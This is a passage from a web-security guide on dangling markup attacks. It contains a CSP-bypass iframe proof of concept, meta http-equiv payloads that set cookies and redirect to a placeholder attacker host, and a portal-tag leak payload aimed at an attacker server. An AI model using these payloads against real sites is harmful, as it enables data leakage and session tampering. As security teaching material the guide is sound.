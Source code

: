 ```html
<script>
  function cspBypass(win) {
    win[0].location = "about:blank"
    setTimeout(() => alert(win[0].name), 500)
  }
</script>

<iframe
  src="//subdomain1.portswigger-labs.net/bypassing-csp-with-dangling-iframes/target.php?email=%22><iframe name=%27"
  onload="cspBypass(this.contentWindow)"></iframe>
```

For more info check [https://portswigger.net/research/bypassing-csp-with-dangling-iframes](https://portswigger.net/research/bypassing-csp-with-dangling-iframes)

### \<meta abuse

You could use **`meta http-equiv`** to perform **several actions** like setting a Cookie: `<meta http-equiv="Set-Cookie" Content="SESSID=1">` or performing a redirect (in 5s in this case): `<meta name="language" content="5;http://attacker.svg" HTTP-EQUIV="refresh" />`

This can be **avoided** with a **CSP** regarding **http-equiv** ( `Content-Security-Policy: default-src 'self';`, or `Content-Security-Policy: http-equiv 'self';`)

### New \<portal HTML tag

You can find a very **interesting research** on exploitable vulnerabilities of the \<portal tag [here](https://research.securitum.com/security-analysis-of-portal-element/).\
At the moment of this writing you need to enable the portal tag on Chrome in `chrome://flags/#enable-portals` or it won't work.

```html
<portal src='https://attacker-server?
```

### HTML Leaks

Not all the ways to leak connectivity in HTML will be useful for Dangling Markup, but sometimes it could help. Check them here: [https://github.com/cure53/HTTPLeaks/blob/master/leak.html](https://github.com/cure53/HTTPLeaks/blob/master/leak.html)

## SS-Leaks

This is a **mix** between **dangling markup and XS-Leaks**. From one side the vulnerability allows to **inject HTML** (but not JS) in a page of the **same origin** of the one we will be attacking. On the other side we won't **attack** directly the page where we can inject HTML, but **another page**.

{{#ref}}
ss-leaks.md
{{#endref}}

## XS-Search/XS-Leaks
